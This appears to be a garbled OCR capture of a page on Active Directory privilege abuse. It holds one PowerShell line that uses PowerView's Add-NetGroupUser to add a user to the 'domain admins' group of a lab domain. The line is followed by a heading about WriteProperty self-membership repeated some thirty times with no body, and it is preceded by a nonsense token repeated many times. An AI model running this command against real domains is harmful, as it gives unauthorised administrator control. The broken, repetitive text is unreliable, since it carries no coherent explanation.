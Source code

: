'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey, 'ejmey
```powershell
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```
## **WriteProperty (Self-Membership)**
**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**
